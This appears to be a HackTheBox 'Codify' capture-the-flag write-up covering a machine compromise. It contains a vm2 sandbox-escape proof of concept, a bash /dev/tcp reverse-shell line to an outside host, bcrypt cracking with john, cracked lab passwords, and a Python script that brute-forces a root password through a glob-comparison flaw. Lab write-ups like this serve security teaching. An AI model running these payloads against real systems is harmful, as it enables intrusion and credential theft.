 ```yaml
---
layout: post
title: Codify - HackTheBox
categories:
- Writeups
- Hackthebox
- Machine
tags:
- Linux
- vm2
- nodejs
- sandboxing
- javascript
- bash script vulnerability
- john
- mariadb
---
```


## Recon

We have detected three ports open upon scanning all the ports in the machine.

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp   open  http?
3000/tcp open  ppp?
```

Upon browsing we are redirected to codify.htb, so we add the domain in our hosts file and start analyzing the web app.
It seems like a web application that lets developers or users in general to run javascript, in particular node.js code using a sandboxing environment  with the name of vm2(This information is present in the [about page](http://codify.htb/about)). The version used by the challenge developers is the version 3.9.16 of [vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16).  

The challenge has some limitations. 
We can't use the following modules:
- child_process
- fs

The modules that we can use(whitelist):
- url
- crypto
- util
- events
- assert
- stream
- path
- os
- zlib

However, they mention that their "ticketing system is being migrated". Lets run a vhost scan.
We tried using gobuster but we were getting status code 301 for all the domains in the wordlist:
`gobuster vhost -u http://codify.htb -w ~/SecLists/Discovery/DNS/subdomains-top1million-5000.txt`

So we tried ffuf filtering for the response words but we didnt get anything:
`~/go/bin/ffuf -H "Host: FUZZ.codify.htb" -c -w ~/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://codify.htb -fw 20`

## Foothold

Since the version of vm2 is from April it might has vulnerabilities. In fact we found two vulnerabilities that lets us escape the sandbox and run commands on the target machine,  CVE-2023-29199 and CVE-2023-30547. Searching in the github for pocs in both versions, we found a poc that works: https://gist.github.com/leesh3288/f05730165799bf56d70391f3d9ea187c.

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule.require('child_process').execSync('id');
}
`

console.log(vm.run(code));
```

Using the following code we get `uid=1001(svc) gid=1001(svc) groups=1001(svc)`.
Lets try to get a shell! 

echo "bash -i >& /dev/tcp/10.10.14.70/1234 0>&1" > rev_cenas.sh || chmod +x rev_cenas.sh || bash ./rev_cenas.sh


python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg (ENTER) (ENTER)


find / -path /proc -prun -user svc 2>/dev/null

Upon running find we get a interesting file: `/var/www/contact/tickets.db`
It seems like a database lets get the file into our computer and analyze it.
The database has one user: `joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2`
John indicates that the hash is using the algorithm bcrypt [Blowfish 32/64 X3], `john hash --wordlist=~/rockyou.txt`.

```shell
$ john hash --wordlist=~/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (joshua)
1g 0:00:00:17 DONE (2023-11-05 15:39) 0.05688g/s 77.81p/s 77.81c/s 77.81C/s winston..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

The password of the user joshua is `spongebob1`. 
Since we have a user with the name of `joshua` in the system, lets try to get a shell with the password we found.

```shell
$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
```

## Privileges Escalation

The first thing we do is to look at the output of the command `sudo -l`.

```shell
$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh

```

We can run the script as root, but at first it seems that we can't do nothing.
The script:

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'

```

After some time, we notice that the script has a vulnerability that lets you exfiltrate each character of the `.creds` file.
The condition `if [[ $DB_PASS == $USER_PASS ]]; then` uses the operator `==`. It lets us know the first character of `$DB_PASS` by brute forcing with `<character>*`. It will compare the first character of `$DB_PASS` with the character we put in the input. Once we found the first character we move on to the next character and so on. For more information about the `==` operator look at the [link](https://tldp.org/LDP/abs/html/comparison-ops.html).

There are two ways of getting the root credentials: 
1. Exfiltrate each character 

```python
import string
import subprocess

all_characters_and_numbers = list(string.ascii_letters + string.digits)

password = ""
found = False

while not found:
    for character in all_characters_and_numbers:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```


2. Use pspy to get the stdout when we hit the first character

Open two shells, one running `pspy` with the flag `-f` and the other running the script `sudo /opt/scripts/mysql-backup.sh`.
Use `k*` as the input and look at the pspy logs. The following log will uncover the password: `/usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES;` which is `kljh12k3jhaskjh12kjh3`.

Using the password after executing `su -` we get a shell as root.